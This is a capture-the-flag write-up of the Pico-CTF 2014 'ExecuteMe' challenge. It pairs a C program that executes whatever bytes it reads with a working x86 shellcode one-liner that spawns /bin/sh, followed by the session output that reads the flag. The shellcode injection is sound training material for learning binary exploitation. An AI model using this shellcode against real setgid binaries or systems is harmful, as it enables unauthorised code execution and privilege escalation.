 # Pico-CTF 2014: ExecuteMe

**Category:** Binary Exploitation
**Points:** 80
**Total Solves:** Not Available
## Problem Description:
[//]: # (Description of your problem. For eg use below description as a template)
[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c).)
> This program will run whatever you send to it! Try to get the flag! The binary can be found at /home/execute/ on the shell server. The source can be found [here](execute.c).

```c
#include <stdio.h>
#include <stdlib.h>

int token = 0;

typedef void (*function_ptr)();

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

int main(int argc, char **argv){
    char buf[128];

    be_nice_to_people();

    read(0, buf, 128);

    ((function_ptr)buf)();
}
```

## Write-up
[//]: # (> Your write up goes here.)
> We can see from the code that char array buf is typecasted as function pointer `function_ptr` then we can write shell code to buf variable and when function call is made shell code written in array buff executes. To get a flag we need to execute /bin/sh from binary. We could have executed by just directly writing `/bin/sh` to buf if it would have been directly passed to `system(buf)` call, but this is not the situation we need to provide assembly shell code which does this thing. Many websites provide shellcode, such as [shell-storm](http://shell-storm.org/shellcode/). For now, let's use this [shellcode](http://shell-storm.org/shellcode/files/shellcode-752.php) to run execve("/bin/sh").

> Running execute binary as : 
```(python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; cat) | ./execute
(python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; cat) | ./execute
ls
Makefile  execute  execute.c  flag.txt
cat flag.txt
shellcode_is_kinda_cool
^C
```

> Flag is : **shellcode_is_kinda_cool**

## Other write-ups and resources

* None
